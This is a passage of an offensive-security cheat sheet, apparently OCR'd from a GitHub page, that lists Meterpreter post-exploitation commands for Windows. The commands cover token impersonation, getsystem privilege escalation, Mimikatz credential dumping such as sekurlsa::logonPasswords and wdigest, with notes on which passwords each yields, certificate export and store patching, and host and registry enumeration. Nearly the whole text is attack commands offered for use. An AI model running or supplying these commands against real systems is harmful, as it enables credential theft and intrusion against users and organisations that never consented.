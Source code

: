 meterpreter > list_tokens -g
 
meterpreter > impersonate_token                         <-- choose who you want to impersonate but be sure to use 2 slashes in the name (ex: impersonate_token domain\\user)
 
meterpreter> getuid
 
 
************ Stealing credentials and certificates ************
- NOTE: Most of the stuff after 'kerberos' DOES NOT work, but is given here so you know the correct syntax to use when connected to AD or dealing with smart/CAC cards.
 
meterpreter > getsystem
 
meterpreter > load mimikatz
 
meterpreter > kerberos
 
meterpreter > mimikatz_command -f sekurlsa::logonPasswords -a "full"
 
meterpreter > msv                                                               <-- Your AD password
 
meterpreter > livessp                                                           <-- Your Windows8 password
 
meterpreter > ssp                                                               <-- Your outlook password
 
meterpreter > tspkg                                                             <-- Your AD password
 
meterpreter > wdigest                                                           <-- Your AD password
 
meterpreter > mimikatz_command -f crypto::listStores
 
meterpreter > mimikatz_command -f crypto::listCertificates
 
meterpreter > mimikatz_command -f crypto::exportCertificates CERT_SYSTEM_STORE_CURRENT_USER
 
meterpreter > mimikatz_command -f crypto::patchcapi
 
meterpreter> search -d <directory> -f <file-pattern>
 
 
********************************** Enumerate the host you are on **********************************
 
meterpreter > run getcountermeasure
 
meterpreter> run winenum
 
meterpreter > run post/windows/gather/enum_applications
 
meterpreter > run post/windows/gather/enum_logged_on_users
 
meterpreter > run post/windows/gather/usb_history
 
meterpreter > run post/windows/gather/enum_shares
 
meterpreter > run post/windows/gather/enum_snmp
 
meterpreter> reg enumkey -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
 